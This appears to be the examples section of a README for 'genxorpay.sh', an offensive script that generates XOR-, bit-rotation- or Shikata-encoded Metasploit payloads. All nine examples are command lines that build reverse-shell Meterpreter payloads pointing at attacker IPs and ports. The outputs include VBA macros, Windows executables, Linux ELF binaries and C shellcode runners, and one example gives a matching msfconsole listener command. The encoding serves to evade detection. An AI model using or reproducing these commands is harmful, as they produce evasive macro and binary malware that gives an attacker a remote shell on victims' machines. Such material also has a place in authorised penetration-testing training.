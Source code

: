 # Exmaples
The following are some example use cases of the script, there are many more ways to use this


### 1️⃣ Generate VBA Macro for Reverse HTTPS Meterpreter

```bash
./genxorpay.sh -p 1 -lhost 10.10.14.22 -lport 443 -o payload.vba -raw raw_shellcode.vba
```
- Creates XOR-encoded VBA macro in `payload.vba`
- Stores raw shellcode in `raw_shellcode.vba`
- Listener: `msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; ..."`

---
### 2️⃣ Generate Payload and Enter Interactive Mode

```bash
./genxorpay.sh -p 4 -lhost 192.168.1.7 -lport 4444 -o macro.vba -i
```

- After generation, lets you **copy**:
    - VBA macro
    - Raw shellcode
    - XOR-encoded buffer
    - Listener command
    - Or **all at once** to clipboard

---

### 3️⃣ Generate `.exe` for Python Meterpreter Shell

```bash
./genxorpay.sh -p 16 -lhost 192.168.1.5 -lport 5555
```

- Creates binary output: `python_meterpreter_reverse_tcp.exe`
- Skips VBA since it's unsupported for non-shellcode formats

---

### 4️⃣ Use Custom XOR Key

```bash
./genxorpay.sh -p 6 -lhost 10.0.0.10 -lport 1337 -key 0x2A -o evil_macro.vba
```

- Uses custom XOR key `0x2A`
- Output: `evil_macro.vba`

### 5️⃣ Generate Linux ELF Meterpreter Payload (x64)

```bash
./genxorpay.sh -lhost 192.168.45.237 -lport 443 -p 12 -key 0x41 -o met64.elf -i --arch x64 --format elf --platform linux
```

----

### 6️⃣ Linux Shellcode with XOR-Encoded C Output

```bash
./genxorpay.sh -lhost 192.168.45.237 -lport 443 -p 13 -key 0x41 -o xor.c -i --arch x64 --format c --platform linux
```

- Generates XOR-encoded shellcode buffer for C payload
- Output C file: `xor.c`
- Includes decoder and shellcode runner

---

### 7️⃣ Linux Shellcode with Bit Rotation Encoding (C Output)

```bash
./genxorpay.sh -lhost 192.168.45.237 -lport 443 -p 13 -o rotate.c -i --arch x64 --format c --platform linux --rotate 2
```

- Applies bit-rotation (left by 2 bits) instead of XOR
- Automatically decodes in the generated C file
- Output C file: `rotate.c`

---

### 8️⃣ VBA Payload with Shikata Encoder (x86)

```bash
./genxorpay.sh -lhost 192.168.45.237 -lport 443 -p 4 -key 0x41 -o shigata.vba -i --arch x86 -e 1
```

- Uses `x86/shikata_ga_nai` encoder (index 1)
- Also applies XOR
- Output VBA macro: `shigata.vba`

---

### 9️⃣ Pure XOR VBA Shellcode (x86)

```bash
./genxorpay.sh -lhost 192.168.45.237 -lport 443 -p 4 -key 0x41 -o normalrev.vba -i --arch x86
```

- Only XOR applied (no encoder)
- Output VBA file: `normalrev.vba`
